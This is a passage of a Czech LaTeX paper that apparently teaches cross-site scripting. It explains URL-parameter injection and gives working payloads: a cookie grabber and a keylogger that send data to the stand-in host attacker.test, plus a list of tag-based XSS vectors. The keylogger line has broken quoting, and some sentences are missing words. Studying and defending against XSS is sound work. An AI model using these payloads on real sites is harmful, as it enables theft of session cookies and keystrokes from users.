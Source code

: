 \documentclass[11pt, conference, a4paper]{IEEEtran}
\begin{document}
Kód z výpisu \ref{lst6} získá uživatelská data z URL parametru \texttt{input} a vloží je do HTML prvku \texttt{body}. V tomto případě však nelze plně použít URL z výpisu \ref{lst2}, jelikož by se script pouze vložil, ale dále nespustil. 

\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst6},
  label=lst7,]
http://site/input?<img src=x onerror="MC">
\end{lstlisting}

V příkladu URL z výpisu \ref{lst7} je použit HTML tag \texttt{img}, který při správném použití může spustit JavaScript. 


\subsection{Reálné útoky}
Nejjednodušším příkladem reálného útoku je tzv. , který získá cookies uživatele a pošle jej pomocí HTTP dotazu na útočníkův server. Tento útok je možno realizovat libovolným typem XSS.

\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<script type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</script>
\end{lstlisting}



\begin{lstlisting}[
  caption=Keylogger,
  label=lst1:kl,]
<img src=x onerror='document.onkeypress = function(e) { fetch (http:///attacker.test?k=" + String.fromCharCode(e.which))}, this.remove();'>
\end{lstlisting}

Pokud chce útočník zaznamenávat, co uživatel na stránce píše, může to udělat pomocí takzvaného .  z výpisu \ref{lst1:kl} používá místo \texttt{script} tagu \texttt{img} tag.

\begin{lstlisting}[
  caption=Tagy umožňující spouštět JavaScript,
  label=lst1:tags,]
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<div onpointerover="alert('XSS')">MOVE HERE</div>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert('XSS')>
<select autofocus onfocus=alert('XSS')>
<textarea autofocus onfocus=alert('XSS')>
<keygen autofocus onfocus=alert('XSS')>
<video/poster/onerror=alert('XSS')>
<video><source onerror="javascript:alert('XSS')">
<video src=_ onloadstart="alert('XSS')">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert('XSS')>
<marquee onstart=alert('XSS')>
<meter value=2 min=0 max=10 onmouseover=alert('XSS')></meter>



\end{lstlisting}
\end{document}
